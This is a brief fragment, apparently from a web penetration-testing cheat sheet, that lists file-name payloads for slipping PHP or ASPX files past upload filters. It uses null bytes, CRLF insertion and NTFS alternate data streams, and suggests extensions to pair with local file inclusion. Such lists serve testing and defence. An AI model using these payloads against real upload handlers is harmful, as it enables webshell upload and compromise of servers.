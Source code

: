 NULL byte extension.

```
.phpA.jpg
.php%00.jpg
.php%0d%0a.jpg
.php\x00.jpg

.phpA.jpeg
.php%00.jpeg
.php%0d%0a.jpeg
.php\x00.jpeg

.phpA.png
.php%00.png
.php%0d%0a.png
.php\x00.png

.phpA.gif
.php%00.gif
.php%0d%0a.gif
.php\x00.gif

.phpA.pdf
.php%00.pdf
.php%0d%0a.pdf
.php\x00.pdf
```

Insert newlines.

```
.jpg\x0d\x0a.php
.jpeg\x0d\x0a.php
.png\x0d\x0a.php
.gif\x0d\x0a.php
.pdf\x0d\x0a.php
```

#### ASP.NET

Windows NTFS ADS

```
.aspx:.jpg
```

## Local File Inclusion

Perform local file inclusion after uploading it.

```
.txt
.cgi
.sh
.jpg
.jpeg
.png
.gif
.bmp
.pdf
.js
```
